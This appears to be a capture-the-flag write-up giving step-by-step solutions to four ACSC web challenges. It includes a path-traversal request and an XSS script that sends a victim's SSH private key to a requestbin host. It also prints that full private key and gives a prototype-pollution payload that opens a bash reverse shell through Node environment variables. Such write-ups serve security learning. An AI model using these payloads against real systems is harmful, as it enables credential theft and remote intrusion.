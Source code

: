 ## Challenge API
Step 1: Register account
```
id=Taidh123taidh&pw=Taidh123taidh&c=u
```

Step 2: get password admin
```
id=Taidh123taidh&pw=Taidh123taidh&c=i&c2=gp
```
password -> `:<vNk`

Step 3: LFI to get flag
```
id=Taidh123taidh&pw=Taidh123taidh&c=i&pas=:<vNk&c2=gd&db=../../../../../flag
```
Flag -> `ACSC{it_is_hard_to_name_a_flag..isn't_it?}`

## Challenge Baby Developer
Step 1: get id_rsa

Host file `index.html` on my server
```js
<script>
     fetch('http://website/home/stypr/.ssh/id_rsa')
    .then(res=>res.text())
    .then(t=>fetch('https://requestbin.net/r/g2vsizx9?cc='+btoa(t)));
</script>
```

Send `http://host:port`

Decode base64 -> id_rsa
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA0LAi66KTE1Cu/CONzYSvi6Q1iCIpl7C8/VScxDE6TnKQ+tJZ0cx6
FmpUwTl0KH1E8iFa+M67cXaf2M7LOubAQfhLHqrO1HTVSjrcV0GLKxPfVOZnUdeWKktjce
J/IyJ2SBW0e7IGqoY2CkB22N9XfQL7lkapLZTr1tYqSykLPurlzusFD8QGf4o5wZmdRM0x
eyirf06vuuBC7qDxmP1dpHyAskYjV4/FjmVz9cgXhPeTpGL2qtB4JAYr2yOcdc9PAiqrji
hcwW0cRLTLqMUIg+spicZLaT8fm+nfluBNxCIw30eB4xfYV21ec+AJFfzHwZM9wk0W5KqK
AMFPbQQ6ZwAAA8iJxwC6iccAugAAAAdzc2gtcnNhAAABAQDQsCLropMTUK78I43NhK+LpD
WIIimXsLz9VJzEMTpOcpD60lnRzHoWalTBOXQofUTyIVr4zrtxdp/Yzss65sBB+Eseqs7U
dNVKOtxXQYsrE99U5mdR15YqS2Nx4n8jInZIFbR7sgaqhjYKQHbY31d9AvuWRqktlOvW1i
pLKQs+6uXO6wUPxAZ/ijnBmZ1EzTF7KKt/Tq+64ELuoPGY/V2kfICyRiNXj8WOZXP1yBeE
95OkYvaq0HgkBivbI5x1z08CKquOKFzBbRxEtMuoxQiD6ymJxktpPx+b6d+W4E3EIjDfR4
HjF9hXbV5z4AkV/MfBkz3CTRbkqooAwU9tBDpnAAAAAwEAAQAAAQBOBWwo2LFQCVxCnDBJ
5A+Vj6EL8mnGcqdVtyqdFyKLbb3SaI54J5CFjN9/FjHdaWg7dkkCuJfPxd/hOP82WEsM3v
2Gy6lkOQH9LKBwZurXAij/Ht0F9ioISgM18s5BnoLGVIcTr+1aF69gidVlI6sb69+PwX9C
sWiy+4L4crHnpVFzVGA8BvSeyUG9HeizM0Pjpi0/fJqQ0Gz4QA+yrbuYbnhkw915aDQkkX
b0/+0Eo607blu61rt8U9I9AEMUZtM6+sWfWkXJpw2GV3/KRaGKv6VwHJZHoDU+Tmkl997j
BkwkiLlZLpjz3meKCjTePXXmT0OQMA+Mrw90UIWmV6/RAAAAgQCv0YnQRcTgXz876LnK2d
SHfyWDh4JI8Vej3DZa0po05iOUkEUYJmiHPWX9ffwzIXuFcopy2XnH29iXJuxZkNpegW+w
jv36+mxXyyZARfJ4wJhQk1QwOnl+AsRtFhRtSTeqfckVqHy9K+V+MrDhSPkCKOjyEHM62d
qNFDVpf4waQQAAAIEA9llqnmgFFmLVXvIMvgSOygaZbR1LK1a0Hdj9tQeBqhsj3dS2kwoO
4wBhLaxFL629JOrZZ3PVP/s+bgQ7Mr2EqMSRDwb4VzjGvrTKCgOkJZuS1J6N7EyFKBRBdA
Rd7erunijdhp+9U/BN3y2gDbFHDSXJzqA3sl8x6i0dZ1ahZLMAAACBANjdBf7L8lYBRV4j
yWkSMFReExGbD+MevqaXqgyf4v0W8EWNAMbu43prsDFoLYX6SO+Uk35xhx3MTPhcfgzZme
mnayx1zZFEj6OSKcHbPCMTdmZD51Tu+rx4wzGqMeo2zeaPfwEdcsa+WchyzauF889scdad
+zu5XwEK6T2grzV9AAAAEXJvb3RAZGFhMmQ5OTUzMGRlAQ==
-----END OPENSSH PRIVATE KEY-----
```

Step 2: Run ssh to get flag

Save the above private key with filename `id_rsa`

`chmod 400 id_rsa`

Get flag -> `ssh -i id_rsa stypr@baby-developer.chal.acsc.asia -p2222`

Flag -> `ACSC{weird_bugs_pwned_my_system_too_late_to_get_my_CVE}`

## Challenge Cowsay as a Service

Overwirte `shell=node` to trigger
```
POST /setting/shell
cookie: username=__proto__


{"value":"/usr/local/bin/node"}
```

Overwirte `env` to reverse shell
```
POST /setting/env
cookie: username=__proto__


{"value":{
  "NODE_DEBUG" : "require(\"child_process\").execSync(\"bash -c 'bash -i >& /dev/tcp/HOST/PORT 0>&1' \");//",
  "NODE_OPTIONS" : "-r /proc/self/environ"
}}
```

Trigger
```
GET /cowsay?say=taidh
cookie: username=__proto__
```

Flag at `/proc/1/environ`

## Challenge Favorite Emoijs
Step 1: Host file index.html
```js
<script>
        location.href="http://api:8000"
</script>
```
Run command `sudo php -S 0.0.0.0:80`

Step 2: Change Host and User-Agent header
```
GET / HTTP/1.1
Host: Your IP
User-Agent: googlebot
...
```

Flag -> `ACSC{sharks_are_always_hungry}`

## Thank
Writeup full I will upload at http://dauhoangtai.github.io later